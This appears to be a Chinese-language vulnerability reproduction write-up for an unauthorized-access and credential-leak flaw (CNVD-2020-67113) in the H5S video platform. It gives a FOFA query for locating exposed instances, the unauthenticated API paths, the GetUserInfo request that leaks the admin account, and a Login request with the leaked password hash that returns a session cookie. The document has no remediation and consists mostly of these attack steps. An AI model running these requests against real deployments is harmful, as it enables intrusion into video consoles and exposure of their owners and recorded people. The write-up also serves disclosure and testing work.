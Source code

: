 # 零视科技 H5S视频平台 GetUserInfo 信息泄漏漏洞 CNVD-2020-67113

## 漏洞描述

零视技术(上海)有限公司是以领先的视频技术服务于客户，致力于物联网视频开发简单化，依托于HTML5 WebRTC 等新的技术，实现全平台视频播放简单化。 零视技术(上海)有限公司H5S CONSOLE存在未授权访问漏洞。攻击者可利用漏洞访问后台相应端口，执行未授权操作。

## 漏洞影响

```
零视科技 H5S视频平台
```

## FOFA

```
title="H5S视频平台|WEB"
```

## 漏洞复现

登录页面

![image-20220525151716667](./images/202205251517010.png)

API文档可以未授权访问

```
/doc/api.html
```

![image-20220525151757329](./images/202205251517406.png)

存在用户账号密码泄漏的接口

```
/api/v1/GetUserInfo?user=admin&session=
```

![image-20220525151838220](./images/202205251518256.png)

其中登录接口中 Password为接口中存在的账号密码，可以直接发送请求获取Cookie

```
/api/v1/Login?user=admin&password=827ccb0eea8a706c4c34a16891f84e7b
```

![image-20220525151916076](./images/202205251519118.png)

请求成功后访问主页面

![image-20220525152043207](./images/202205251520302.png)